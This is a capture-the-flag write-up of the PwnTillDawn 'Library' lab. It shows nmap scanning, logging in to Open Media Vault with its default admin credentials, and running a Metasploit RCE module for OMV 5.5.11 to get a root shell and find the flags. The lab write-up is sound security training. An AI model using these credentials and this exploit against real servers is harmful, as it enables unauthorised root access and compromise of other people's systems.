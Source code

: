 ```yaml
---
layout: post
title: PwnTillDawn - Library Write-Up
date: 2024-11-17
classes: wide
description: Exploring an Open Media Vault webserver with Metasploit modules.
---
```


# Library (10.150.150.111)

![](/assets/img/post/pwntilldawn_library/1.png)

## Scanning Target

The first obvious step is to fire up nmap to gather information about ports on our target:

```
$ sudo nmap -sV -sC -oN scans/nmap.txt 10.150.150.111
```

Interetingly enough, we only have one accessible port, in this case it's `80/tcp` and apparently running Open Media Vault on it.

![](/assets/img/post/pwntilldawn_library/2.png)



## Webserver Exploration

As shown by Nmap, this is an Open Media Vault control panel running on the web server.

![](/assets/img/post/pwntilldawn_library/3.png)

A quick note: remember to always check for default credentials, beucase it took me a really long time to figure out it was this obvious. After searching out, I've found the default credentials are `admin:openmediavault`, who would've guessed?

Once we've successfully accessed the control panel with the administration account, we are greeted with the dashboard, showing us  a version string which can be useful to search for exploits later on.

![](/assets/img/post/pwntilldawn_library/4.png)

After a quick search, discovered that Rapid7 has a Metasploit module to exploit OpenMediaVault version **5.5.11** with a Remote Code Execution (RCE) vulnerability through `rcp.php`, awesome! Moveover, it matches our target version string.

![](/assets/img/post/pwntilldawn_library/5.png)



## Exploiting Target

Let's try and exploit the server with the recently discovered exploit.

```
$ sudo msfconsole
msf6 > use unix/webapp/openmediavault_rpc_rce
msf6 > set lhost X.X.X.X
msf6 > set rhosts 10.150.150.111
```

![](/assets/img/post/pwntilldawn_library/6.png)

Looks like it worked, as we got a message informing about a newly created session. Let's check it out by accessing the most recent session in our Metasploit.

```
msf6 > sessions -i -1
meterpreter > shell
/bin/bash -i
```

Not only it worked as expected, but we've now got access directly to the root user, so we won't have to bother with privilege escalation process this time.

Soon after gaining access,  we can find **FLAG1.txt** inside root's home directory.

![](/assets/img/post/pwntilldawn_library/7.png)

After searching out a while for the second flag, I've came up with the ideia of using grep recursively to find out where it is.

```
$ grep -rni "flag2" / 2>/dev/null
```

What this command does is search out for the string "flag2"  on the root of the system, while ignoring case differences and sending error messages to `/dev/null`.

![](/assets/img/post/pwntilldawn_library/8.png)

